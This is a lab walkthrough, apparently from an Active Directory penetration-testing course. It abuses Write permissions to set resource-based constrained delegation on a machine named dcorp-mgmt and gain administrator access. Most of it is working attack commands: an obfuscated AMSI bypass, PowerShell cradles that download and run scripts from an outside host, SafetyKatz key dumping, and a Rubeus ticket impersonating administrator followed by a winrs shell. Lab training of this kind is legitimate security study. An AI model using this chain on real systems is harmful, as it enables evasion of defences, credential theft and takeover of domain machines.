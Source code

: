 # ✍️ Find Computer in domain with Write permissions and access as Domain Admin

Let's start by using Powerview to enumerate Write permissions for a user that we have compromised. After trying from multiple users or using BloodHound we would know that the user ciadmin has Write permissions on the computer object of dcorp-mgmt ->&#x20;

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 . .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1121</p></figcaption></figure>

Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.

{% content-ref url="elevate-privileges-and-gain-a-shell.md" %}
[elevate-privileges-and-gain-a-shell.md](elevate-privileges-and-gain-a-shell.md)
{% endcontent-ref %}

Now on the shell ->

```
iex (iwr http://172.16.100.13:8787/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:8787/PowerView.ps1'))
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std613$' -Verbose
Get-DomainRBCD
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD613$
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-15112
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD613,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

Now we need the AES keys of t student VM (as we configured RBCD for it above)

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-std613$ /aes256:50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Now that the ticket is imported we can connect via winrs

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

```
winrs -r:dcorp-mgmt cmd
```
